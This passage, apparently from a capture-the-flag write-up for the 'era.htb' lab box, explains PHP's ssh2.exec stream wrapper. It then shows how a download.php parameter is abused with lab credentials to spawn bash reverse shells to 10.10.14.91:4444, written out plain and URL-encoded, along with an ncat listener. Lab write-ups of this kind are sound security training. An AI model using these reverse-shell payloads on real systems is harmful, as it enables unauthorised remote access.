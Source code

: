The feature that is only available to the admin has been confirmed. Now let's get a reverse shell.
For this, we will use **PHP-stream-wrapper**. PHP supports opening not only local files via `fopen()`, but also **all sorts of "wrappers"** like `<scheme>://…` — these are **stream-wrappers**. For example:
- `php://filter/...` — for filtering/encoding content,
- `data://…` — for embedded data,
- `file://…` — an explicit reference to the local file system,
- etc.

If the server has the **ssh2** extension (PECL SSH2) installed, two wrappers are automatically added:
- `ssh2.shell://…`
- `ssh2.exec://…`

With `ssh2.exec://user:pass@host/COMMAND` PHP with `fopen()`:
1. **Establishes an SSH connection** to `host` under the account `user` with the password `pass`.
2. Executes the command `COMMAND` on the remote host.
3. Returns a stream handle from which to **read stdout** of this command.

Let's try to get the reverse shell of user `yuri`, which has the password `mustang`:
```URL
http://file.era.htb/download.php?idT&show=true&format=ssh2.exec://yuri:mustang@127.0.0.1/bash -c "bash -i >& /dev/tcp/10.10.14.91/4444 0>&1";
```
Didn't work. Let's try **URL encoding** dangerous characters:
```URL
http://file.era.htb/download.php?id=6540&show=true&format=ssh2.exec://yuri:mustang@127.0.0.1/bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.91%2F4444%200%3E%261%22;
```
```bash
sudo ncat -lvnp 4444
```

![image](images/20250729000027.png)

`yuri` didn't have a flag in the home directory, but `eric` does too. Let's try to get a reverse shell to it:
```URL
http://file.era.htb/download.php?id=6540&show=true&format=ssh2.exec://eric:america@127.0.0.1/bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.91%2F4444%200%3E%261%22;
```

![image](images/20250729000722.png)
